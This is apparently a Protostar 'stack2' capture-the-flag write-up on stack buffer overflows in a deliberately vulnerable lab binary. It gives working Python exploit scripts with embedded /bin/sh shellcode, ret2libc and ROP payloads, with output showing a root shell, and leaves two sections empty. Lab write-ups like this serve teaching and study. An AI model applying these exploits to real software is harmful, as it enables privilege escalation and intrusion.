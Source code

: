 # Stack2

## Solution
Quick disassembly to see the offsets of the variables stored in the binary.
```
[0x080483e0]> pdf @main
            ; DATA XREF from entry0 @ 0x80483f7
┌ 128: int main (int argc, char **argv, char **envp);
│           ; var char *src @ esp+0x4
│           ; var char *dest @ esp+0x18
│           ; var int32_t var_ch @ esp+0x58
│           ; var char *var_8h @ esp+0x5c
```

As the contents of `arg_ch` is copied into the `dest` variable, the size of the offset is the
distance from the start of the `dest` buffer to the `var_ch` variable, which we need to modify.
```
>>> 0x58 - 0x18
64
```

To solve the challenge, we need to change the `var_ch` variable to `0d0a0d0a`.
``
```
user@protostar:/opt/protostar/bin$ GREENIE=$(python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"') ./stack2
you have correctly modified the variable
```

## Shells

### Classic
First we need to find the offset from the start of the buffer to the %eip register, so we can
redirect process execution. We can do this by giving it a known pattern of bytes, in this case
`BBBBCCCCDDDD`, and so on.
```
(gdb) set env GREENIE AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGG
(gdb) r
Starting program: /opt/protostar/bin/stack2 
Try again, you got 0x42424242

Program received signal SIGSEGV, Segmentation fault.
0x47474747 in ?? ()
```

Since %eip was overwritten with `47474747` the offset is easily calculated as 84 bytes.

```py
import struct

off = 84

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0xbffff68c + 0x80)

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ GREENIE=$(python /tmp/pwn.py) ./stack2
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Ret2libc
Read stack0 to see how we calculated the appropriate offsets for `libc`, `system` and `/bin/sh`
required for this ret2libc exploit.

```py
import struct

off = 84

pad = 'A' * off

system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

print pad + system + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ GREENIE=$(python /tmp/pwn.py) ./stack2
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Rop Chain to Shellcode
Here we just redirect process execution to a `ret` instruction, which then takes the next 4 bytes
on the stack and calls the shellcode there.

```py
import struct

off = 84

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x08048513)
ret += struct.pack('I', 0xbffff68c + 0x80)

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ GREENIE=$(python /tmp/pwn.py) ./stack2
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Rop Chain to Libc
...

### Ret2.text to Shellcode
First we need to find a POP, POP, RET gadget in the target binary. We can do this with
`msfelfscan`.
```
➜  stack git:(master) ✗ msfelfscan -s -f stack2
0x08048587   edi ebp ret
0x08048462   ebx ebp ret
0x080485b7   ebx ebp ret
```

```py
import struct

off = 84

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x08048587)

ret += 'AAAA'                              # POP
ret += 'AAAA'                              # POP
ret += struct.pack('I', 0xbffff68c + 0x80) # RET

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ GREENIE=$(python /tmp/pwn.py) ./stack2
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Ret2.text to Libc
...
